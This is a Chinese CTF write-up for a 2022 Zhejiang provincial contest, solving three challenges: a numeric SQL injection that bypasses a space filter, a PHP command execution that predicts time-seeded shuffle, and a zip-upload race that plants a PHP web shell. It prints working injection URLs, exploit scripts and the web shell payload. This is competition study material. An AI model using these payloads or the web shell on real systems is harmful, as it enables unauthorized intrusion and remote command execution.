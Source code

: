 # 2022 浙江省省赛 WP

## babysql

一道简单的数字型 SQL

搞了好久，一开始以为是过滤 select，结果发现只是过滤了空格，日。

空格用 `/**/`绕过，是一个数字型的注入

可以这样判断 SQL 注入

```none
id=0/**/or/**/1=1
```

这时候会发现，有一个 user，说明被截断了，所以必须要用 `group_concat`

![sql1](images/sql1.png)

判断列是3，在四个的时候会无回显的

![sql1](images/wrong.png)

爆库：

```none
http://1.14.97.218:20404/search.php?id=0/**/union/**/select/**/database(),2,3
```

![sql1](images/database.png)

爆表

```none
http://1.14.97.218:20404/search.php?id=0/**/union/**/select/**/group_concat(table_name),group_concat(table_schema),3/**/from/**/information_schema.tables/**/where/**/table_schema='ctf'
```

![sql1](images/table.png)

最后发现是在 emails 里面，有点坑，我以为 emails 里面是两列，就一直两列了，结果一直出不来数据、

先爆列

```none
http://1.14.97.218:20404/search.php?id=0/**/union/**/select/**/group_concat(column_name),group_concat(column_name),3/**/from/**/information_schema.columns/**/where/**/table_schema='ctf'/**/and/**/table_name='emails'
```

![sql1](images/emails.png)

爆email的数据

```none
http://1.14.97.218:20404/search.php?id=0/**/union/**/select/**/group_concat(id),group_concat(email_id),2/**/from/**/emails
```

成功得到 flag

![sql1](images/flag.png)

DASCTF{09477859078112710768034529255251}

- 确实简单，但是基本功不扎实

## ezphp

一段简单的 PHP 代码，第一次见这种题目

题目源代码如下

```php
<?php  
error_reporting(0);  
highlight_file(__FILE__);  
mt_srand(time());  
$a = array("system",$_GET['cmd']);  
for ($i=0;$i<=10000;$i++){ array_push($a,"Ctfer");  
}  
shuffle($a);  
$a[$_GET['b']]($a[$_GET['c']]);
```

只要简单传参，cmd 就可以进行命令执行，但是却会有一点小问题。

- 这里最主要的一个方法是 `shuffle()`，这个方法的意义如下：

把数组中的元素按随机顺序重新排列

这里有一个数组，长度是 1w；会把一万个`Ctfer` 压到数组底部然后再打乱，但是由于这里用到了 `mt_srand(time());` 导致打乱数组的顺序其实是伪随机的，而种子为时间戳，那么我们可以伪造未来的时间戳，然后提前知道顺序直接命令执行。

没做出来，题目挺新的

代码如下，这里需要科普一下 PHP7 版本

> PHP 7.1.0：内置的随机数产生算法从 libc rand 函数改成 梅森旋转演伪随机数发生算法。

本来是不可以爆破的，现在可以爆破了。  
我们只需要让 b 对应的是 system 那个元素，c 对应的是执行语句的就可以，写个 EXP

写入文件，找到对应的下标：

```php
<?php
mt_srand(1663982460);
$a = array("system","ls /;cat /f*");
for ($i=0;$i<=10000;$i++){
    array_push($a,"Ctfer");
}
shuffle($a);
$s = "";
foreach($a as $key=>$value){
    $s = $s."[".$key."]".$value."\\n";
}
$fp = fopen('output.txt','w+');
fwrite($fp,$s);
```

直接死循环访问拿到 flag

```python
import requests
import time


url = '<http://1.14.97.218:27546/?cmd=ls> /;cat /f*&b=9168&c=5478'


while True:
# time.sleep(0.01)
r = requests.get(url)
 print(r.text)
```

## upload

尝试传了很多文件，最后发现只有 zip，rar 是可以的，其他都不行。如果是要这样打的话，肯定是需要源码的，但是一直没找到源码。

存在源码泄露，笑死。第一步就没找到源码。

位置处于：`.upload.php.swo`

源码如下

```php
<?php
error_reporting(0);
$type = pathinfo($_FILES["file"]["name"],PATHINFO_EXTENSION);
if ($type != "zip" && $type != "rar"){
    die("no");
}
$random_path = "upload/".md5(uniqid(mt_rand(), true));
$file_name = md5(uniqid(mt_rand(), true)).".zip";
mkdir($random_path);
$file_path = $random_path."/".$file_name;
move_uploaded_file($_FILES['file']['tmp_name'],$file_path);
$zip = new ZipArchive();
if (file_exists($file_path)){
    try {
        $zip->open($file_path);
        $zip->extractTo($random_path);
        $zip->close();
    }catch (Throwable  $e){
        $zip->close();
        rename($random_path,"error/".md5(time()));
    }
}
system("rm -rf error/*");
system("rm -rf upload/*")

?>
```

文件上传之后在 upload 目录下直接 md5 随机数生成目录，再把上传的文件解压，要得到这个目录名是很困难的，但是后面的代码中说明当解压出现异常的时候会把文件解压到 `error/md5(time())` 目录下，又又又是时间戳，那思路和之前的一样利用未来的时间戳。上传P神说过的会使 `ZipArchive` 出错的 zip，然后多线程访问

恶意的 zip

```payload
| a.zip
 - /////
 - a.php >> <?=system($_POST['cmd']);?>
```

exp:

```python
import requests
import hashlib
import threading


url = '<http://1.14.97.218:24533/upload.php>'


def upload():
    d = hashlib.md5('1663987800'.encode()).hexdigest()
    r = requests.post(url, files={'file': open('../a.zip', 'rb')})
    rr = requests.post('<http://1.14.97.218:24533/error/'+d+'/a.php>', data={'cmd': 'cat /f*'})
 if rr.status_code == 200:
 print(rr.text)


if __name__ == '__main__':
 while True:
        a = threading.Thread(target=upload)
        b = threading.Thread(target=upload)
        a.start()
        b.start()
```